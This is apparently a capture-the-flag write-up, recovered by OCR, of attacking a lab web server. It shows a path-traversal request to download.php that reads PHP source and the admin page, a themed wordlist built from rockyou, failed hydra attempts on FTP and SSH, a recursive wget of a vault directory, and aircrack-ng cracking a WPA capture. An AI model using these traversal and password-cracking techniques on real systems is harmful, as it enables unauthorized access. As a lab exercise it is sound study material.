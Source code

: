 
curl -k -X POST https://192.168.1.144:15020/blog/download.php --data "image=/blog/classes/securimage/securimage_show.php"

we haven't had any luck logging into this machine yet. While we seem to have some passwords from the PHP source files for the database and such, we can't seem to login to the admin panel, which by the looks of it, only gave us the Philippines flag from:
curl -k -X POST https://192.168.1.144:15020/blog/download.php --data "image=../blog/admin/index.php"

I created a password list based on our themed topic, minions.

grep minion /usr/share/wordlists/rockyou.txt > minions

Tried hydra for the FTP and SSH logins. This seemed fruitless, no success. :(


I tried spidering /vault/ but seems to go in a loop(I could be wrong)

mkdir wget-dump
cd wget-dump
wget --no-check-certificate -r -b https://192.168.1.144:15020/vault/
Output will be written to `wget-log'.

find -type f | grep --invert-match htm
/wget-log
./192.168.1.144:15020/minions.jpg
./192.168.1.144:15020/vault/Door222/Vault70/ctf.cap
./192.168.1.144:15020/vault/Door223/Vault1/rockyou.zip
./192.168.1.144:15020/icons/blank.gif
./192.168.1.144:15020/icons/back.gif
./192.168.1.144:15020/icons/folder.gif
./192.168.1.144:15020/icons/compressed.gif
./192.168.1.144:15020/icons/unknown.gif
cd ..
wm -rf wget-dump

So we found some new files.

Our password list we created earlier, came in handy.

aircrack-ng -w ./minions *.cap

                             Aircrack-ng 1.2 rc4

      [00:00:00] 28/67 keys tested (1198.58 k/s) 

      Time left: 0 seconds                                      41.79%

                          KEY FOUND! [ minion.666 ]


      Master Key     : CA 8E A6 F3 BB 7F 29 CD D9 F8 91 43 CC 26 2D B6 
                       8C 1A 05 1A 39 67 94 5A 60 81 E6 6F FF 91 0F 28 

      Transient Key  : 9E DD C0 66 D0 3B 99 A5 9F 41 D6 F9 40 95 55 04 
                       B1 87 ED 42 24 1A A2 6C B3 C5 36 D2 62 46 AB 28 
                       92 D6 09 8D B8 69 23 C7 EB 2E 01 0E CB BB 40 36 
                       6F 11 68 CC 99 80 DF 36 FC 8D 8A 48 50 88 F9 C1 

      EAPOL HMAC     : FB C1 48 13 17 D1 EA 23 FE CF 93 52 97 0B 83 4A 

Later found that the blog password, was minion.666 for user admin, but we already got the flag for this via the download.php route.


The only flag we're missing at this point, is the Laos flag.

